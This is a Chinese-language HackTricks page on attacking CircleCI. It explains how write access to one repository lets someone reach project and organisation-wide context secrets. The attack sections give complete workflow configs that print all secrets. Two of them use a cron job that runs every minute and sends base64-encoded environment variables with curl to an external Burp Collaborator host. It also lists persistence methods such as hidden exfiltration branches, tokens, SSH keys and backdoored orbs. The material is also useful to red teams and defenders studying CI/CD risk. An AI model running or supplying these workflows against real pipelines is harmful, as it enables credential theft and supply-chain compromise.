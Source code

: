 # CircleCI安全

<details>

{% hint style="success" %}
学习并练习AWS黑客技术：<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks培训AWS红队专家（ARTE）**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
学习并练习GCP黑客技术：<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks培训GCP红队专家（GRTE）**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持HackTricks</summary>

* 检查[**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **关注**我们的**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **github仓库提交PR来分享黑客技巧**。

</details>
{% endhint %}

## 基本信息

[**CircleCI**](https://circleci.com/docs/2.0/about-circleci/)是一个持续集成平台，您可以使用它来**定义模板**，指示您希望它对某些代码执行何种操作以及何时执行。这样，您可以直接从您的存储库主分支**自动化测试**或**部署**。

## 权限

**CircleCI** **继承了**与登录相关的**github**和**bitbucket**的**权限**。\
在我的测试中，我发现只要您在**github**上对存储库具有**写入权限**，您就可以在**CircleCI**中**管理其项目设置**（设置新的ssh密钥，获取项目api密钥，创建具有新CircleCI配置的新分支...）。

但是，您需要是**存储库管理员**才能**将存储库转换为CircleCI项目**。

## 环境变量和秘密

根据[**文档**](https://circleci.com/docs/2.0/env-vars/)，有不同的方法可以在工作流程中**加载环境变量的值**。

### 内置环境变量

由CircleCI运行的每个容器将始终具有[**文档中定义的特定环境变量**](https://circleci.com/docs/2.0/env-vars/#built-in-environment-variables)，如`CIRCLE_PR_USERNAME`，`CIRCLE_PROJECT_REPONAME`或`CIRCLE_USERNAME`。

### 明文

您可以在**命令**中以明文声明它们：
```yaml
- run:
name: "set and echo"
command: |
SECRET="A secret"
echo $SECRET
```
您可以在**运行环境**中以明文形式声明它们：
```yaml
- run:
name: "set and echo"
command: echo $SECRET
environment:
SECRET: A secret
```
您可以在**build-job环境**中以明文形式声明它们：
```yaml
jobs:
build-job:
docker:
- image: cimg/base:2020.01
environment:
SECRET: A secret
```
您可以在**容器环境**中以明文形式声明它们：
```yaml
jobs:
build-job:
docker:
- image: cimg/base:2020.01
environment:
SECRET: A secret
```
### 项目机密

这些是只能被项目（任何分支）访问的**机密**。\
您可以在 _https://app.circleci.com/settings/project/github/\<org\_name>/\<repo\_name>/environment-variables_ 中查看它们的声明。

![](<../.gitbook/assets/image (129).png>)

{% hint style="danger" %}
"**导入变量**"功能允许从其他项目导入变量到此项目。
{% endhint %}

### 上下文机密

这些是**组织范围**的机密。默认情况下，任何存储在此处的机密都可以被**任何存储库**访问：

![](<../.gitbook/assets/image (123).png>)

{% hint style="success" %}
但请注意，可以选择一个不同的组（而不是所有成员）来**仅允许特定人员访问机密**。\
这目前是增加机密安全性的最佳方式之一，不允许每个人都访问它们，而只允许某些人访问。
{% endhint %}

## 攻击

### 搜索明文机密

如果您可以访问VCS（如github），请检查每个存储库的每个分支的`.circleci/config.yml`文件，并搜索其中存储的潜在**明文机密**。

### 机密环境变量和上下文枚举

通过检查代码，您可以找到每个`.circleci/config.yml`文件中使用的**所有机密名称**。您还可以从这些文件中获取上下文名称，或在Web控制台中检查它们：_https://app.circleci.com/settings/organization/github/\<org\_name>/contexts_。

### 外泄项目机密

{% hint style="warning" %}
为了**外泄**所有项目和上下文**机密**，您只需要对整个github组织中的**1个存储库**具有**写入**访问权限（_并且您的帐户必须可以访问上下文，但默认情况下每个人都可以访问每个上下文_）。
{% endhint %}

{% hint style="danger" %}
"**导入变量**"功能允许从其他项目导入变量到此项目。因此，攻击者可以**从所有存储库导入所有项目变量**，然后**一起外泄所有这些变量**。
{% endhint %}

所有项目机密始终设置在作业的环境中，因此只需调用环境并将其混淆为base64，即可在**工作流Web日志控制台**中外泄机密：
```yaml
version: 2.1

jobs:
exfil-env:
docker:
- image: cimg/base:stable
steps:
- checkout
- run:
name: "Exfil env"
command: "env | base64"

workflows:
exfil-env-workflow:
jobs:
- exfil-env
```
如果您**无法访问Web控制台**，但可以**访问存储库**，并且知道正在使用CircleCI，您可以**创建一个工作流**，**每分钟触发一次**，将**机密信息传送到外部地址**：
```yaml
version: 2.1

jobs:
exfil-env:
docker:
- image: cimg/base:stable
steps:
- checkout
- run:
name: "Exfil env"
command: "curl https://lyn7hzchao276nyvooiekpjn9ef43t.burpcollaborator.net/?a=`env | base64 -w0`"

# I filter by the repo branch where this config.yaml file is located: circleci-project-setup
workflows:
exfil-env-workflow:
triggers:
- schedule:
cron: "* * * * *"
filters:
branches:
only:
- circleci-project-setup
jobs:
- exfil-env
```
### 泄露上下文中的秘密

您需要**指定上下文名称**（这也将泄露项目的秘密）：
```yaml
version: 2.1

jobs:
exfil-env:
docker:
- image: cimg/base:stable
steps:
- checkout
- run:
name: "Exfil env"
command: "env | base64"

workflows:
exfil-env-workflow:
jobs:
- exfil-env:
context: Test-Context
```
如果您**无法访问Web控制台**，但可以**访问存储库**，并且知道正在使用CircleCI，您可以**修改一个每分钟触发**并**将机密信息传输到外部地址**的工作流程：
```yaml
version: 2.1

jobs:
exfil-env:
docker:
- image: cimg/base:stable
steps:
- checkout
- run:
name: "Exfil env"
command: "curl https://lyn7hzchao276nyvooiekpjn9ef43t.burpcollaborator.net/?a=`env | base64 -w0`"

# I filter by the repo branch where this config.yaml file is located: circleci-project-setup
workflows:
exfil-env-workflow:
triggers:
- schedule:
cron: "* * * * *"
filters:
branches:
only:
- circleci-project-setup
jobs:
- exfil-env:
context: Test-Context
```
{% hint style="warning" %}
仅在存储库中创建一个新的 `.circleci/config.yml` **并不足以触发 CircleCI 构建**。您需要在 CircleCI 控制台中**将其启用为一个项目**。
{% endhint %}

### 逃逸至云端

**CircleCI** 提供了在**他们的机器上或在您自己的机器上运行构建的选项**。\
默认情况下，他们的机器位于 GCP，最初您可能找不到任何相关信息。但是，如果受害者在**他们自己的机器上运行任务（可能是在云环境中）**，您可能会发现一个**包含有趣信息的云元数据端点**。

请注意，在前面的示例中，所有内容都是在一个 Docker 容器中启动的，但您也可以**请求启动一个 VM 机器**（可能具有不同的云权限）:
```yaml
jobs:
exfil-env:
#docker:
#  - image: cimg/base:stable
machine:
image: ubuntu-2004:current
```
甚至是具有访问远程 Docker 服务权限的 Docker 容器：
```yaml
jobs:
exfil-env:
docker:
- image: cimg/base:stable
steps:
- checkout
- setup_remote_docker:
version: 19.03.13
```
### 持久性

* 可以在CircleCI中**创建用户令牌**以使用用户权限访问API端点。
* _https://app.circleci.com/settings/user/tokens_
* 可以**创建项目令牌**以使用分配给令牌的权限访问项目。
* _https://app.circleci.com/settings/project/github/\<org>/\<repo>/api_
* 可以向项目**添加SSH密钥**。
* _https://app.circleci.com/settings/project/github/\<org>/\<repo>/ssh_
* 可以在意外项目中的隐藏分支中**创建定时任务**，每天**泄露**所有**上下文环境**变量。
* 或者甚至在分支中创建/修改已知任务，每天**泄露**所有上下文和**项目机密**。
* 如果您是GitHub所有者，可以**允许未经验证的orbs**并在作业中配置一个作为**后门**。
* 您可以在某些任务中找到**命令注入漏洞**，通过**秘密**修改其值**注入命令**

<details>

{% hint style="success" %}
学习并实践AWS黑客技术：<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks培训AWS红队专家（ARTE）**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
学习并实践GCP黑客技术：<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks培训GCP红队专家（GRTE）**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持HackTricks</summary>

* 查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或 **关注**我们的**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享黑客技巧。

</details>
{% endhint %}

